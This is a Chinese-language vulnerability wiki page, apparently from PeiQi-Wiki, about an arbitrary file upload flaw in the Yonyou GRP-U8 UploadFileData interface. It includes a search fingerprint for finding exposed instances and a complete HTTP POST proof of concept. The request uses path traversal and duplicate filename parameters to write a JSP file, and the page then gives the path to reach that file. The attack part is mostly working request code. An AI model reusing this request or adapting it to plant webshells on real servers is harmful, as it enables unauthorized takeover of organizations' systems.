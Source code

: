 # 用友 GRP-U8 UploadFileData 任意文件上传漏洞

## 漏洞描述

用友 GRP-U8 UploadFileData接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>用友 GRP-U8 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="用友-GRP-U8"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1658984179476-4b141067-664e-4147-9632-c05e05f88b02.png)

验证POC

```php
POST /UploadFileData?action=upload_file&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&foldername=%2e%2e%2f&filename=debugg.jsp&filename=1.jpg HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=59227D2C93FE3E8C2626DA625CE710F9
Content-Type: multipart/form-data
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36

------WebKitFormBoundary92pUawKc
Content-Disposition: form-data; name="myFile";filename="test.jpg"

<% out.println("123");%>
------WebKitFormBoundary92pUawKc--
```

![img](/assets/PeiQi-Wiki/img/1658984367405-5725ee72-e2b0-457d-bbda-528499a8d165.png)

访问写入的文件

```php
/R9iPortal/debugg.jsp
```

![img](/assets/PeiQi-Wiki/img/1658985432892-1b051d1e-8f3b-4acb-8eb3-b73ad755c05f.png)